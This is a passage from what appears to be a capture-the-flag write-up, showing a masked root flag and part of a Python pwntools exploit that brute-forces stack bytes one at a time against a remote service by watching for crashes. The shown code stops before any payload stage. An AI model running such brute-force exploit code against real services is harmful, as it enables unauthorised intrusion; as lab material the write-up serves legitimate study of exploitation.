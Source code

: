
    $ cat root.txt
    1c773343************************



The full exploit source code is:



    #!/usr/bin/env python3

    import sys
    import time
    from pwn import *
    import pdb

    def get_next_byte(s, r):

        for i in r:
            p = remote(host,port)
            p.recvuntil("Please enter the message you want to send to admin:\n")
            try:
                p.send(s + i.to_bytes(1,'big'))
                p.recvuntil('Done.', timeout=2)
                p.close()
                return i.to_bytes(1,'big')
            except EOFError:
                p.close()
        import pdb
        pdb.set_trace()
        print("Failed to find byte")


    def brute_word(buff, num_bytes, obj, assumed=b''):

        start = time.time()
        result = assumed
        with log.progress(f'Brute forcing {obj}') as p:
            for i in range(num_bytes):
                current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
                p.status(f'Found {len(result)} bytes: {current}')
                byte = None
                context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
                while byte == None:          # If no byte found, over range again
                    byte = get_next_byte(buff + result, range(0,255))
                result = result + byte
                context.log_level = 'info'   # Re-enable logging
            p.success(f'Finished in {time.time() - start:.2f} seconds')

        log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
        return result


    if len(sys.argv) != 2 or sys.argv[1] not in ['local','remote']:
        print("Usage: %s [target]\ntarget is local or remote\n" % sys.argv[0])
        sys.exit(1)
    target = sys.argv[1]

